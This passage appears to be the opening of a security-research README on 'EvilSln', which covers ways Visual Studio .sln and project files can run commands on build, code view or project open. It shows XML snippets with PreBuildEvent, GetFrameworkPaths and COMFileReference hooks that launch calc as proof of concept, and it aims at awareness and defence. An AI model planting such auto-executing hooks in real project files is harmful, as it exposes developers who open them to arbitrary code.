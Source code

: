 # EvilSln: Don't open .sln files

A New Exploitation Technique for Visual Studio Projects

# Background

Using code projects for phishing attacks is not a new concept. In early 2021, the Lazarus APT group employed a specific attack technique in their campaign targeting security researchers. They embedded malicious event commands within Visual Studio project files, allowing the execution of harmful code when the project is compiled, as detailed in: [New campaign targeting security researchers](https://blog.google/threat-analysis-group/new-campaign-targeting-security-researchers/)

This incident has once again brought the security of Visual Studio into the public eye. However, it is important to note that Visual Studio is not the only product with such risks. JetBrains' IDEs, VSCode, and other text editors also face similar vulnerabilities when opening unsafe projects. As a response, these products have introduced trust zone mechanisms that disable certain risky functionalities in untrusted environments, aiming to protect their users.

In this repository, we present a new exploitation technique for Visual Studio projects **(Microsoft consider it is not a security issue)** and provide a proof of concept. Our intention is to raise awareness about the potential risks involved and empower individuals to avoid being hacked.

# Detail Analysis

## Execution

Here are some publicly disclosed methods for exploiting Visual Studio:

1. `PreBuildEvent`: Executes arbitrary commands before project compilation.

```xml
<PreBuildEvent>
    <Command>
    cmd /c calc
    </Command>
</PreBuildEvent>
```

2. `GetFrameworkPaths Target`: Triggered when viewing code.

```xml
<Target Name="GetFrameworkPaths">
    <Exec Command="calc.exe"/>
</Target>
```

3. `COMFileReference`: Triggered when loading `TypeLib` during project opening.

```xml
<COMFileReference Include="files\helpstringdll.tlb">
     <EmbedInteropTypes>True</EmbedInteropTypes>
</COMFileReference>
```
